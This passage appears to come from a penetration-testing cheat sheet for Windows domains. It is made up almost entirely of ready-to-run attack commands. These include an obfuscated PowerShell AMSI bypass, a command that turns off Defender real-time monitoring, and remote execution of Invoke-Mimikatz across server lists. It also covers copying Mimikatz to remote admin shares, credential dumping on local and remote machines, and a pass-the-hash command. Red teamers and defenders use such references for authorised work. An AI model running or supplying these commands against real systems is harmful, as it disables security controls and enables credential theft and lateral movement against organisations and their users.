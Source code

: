 ```
Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )} $sess
```

#### Disable AV monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

#### Execute locally loaded function on a list of remote machines
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content <list_of_servers>)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content <list_of_servers>)
```

#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```

#### Enumerate applocker policy
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Copy script to other server
ps you can edit the script and call the method you wish so it executes, since you still cant load it in
```
Copy-Item .\Invoke-MimikatzEx.ps1 \\<servername>\c$\'Program Files'
```

## Mimikatz
#### Mimikatz dump credentials on local machine
```
Invoke-Mimikatz -Dumpcreds
```

#### Mimikatz dump credentials on multiple remote machines
```
Invoke-Mimikatz -Dumpcreds -Computername @(“<system1>”,”<system2>”)
Invoke-Mimikatz -Dumpcreds -ComputerName @("<computername 1>","<computername 2>")
```

#### Mimikatz start powershell pass the hash (run as local admin)
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlm hash> /run:powershell.exe"'
```
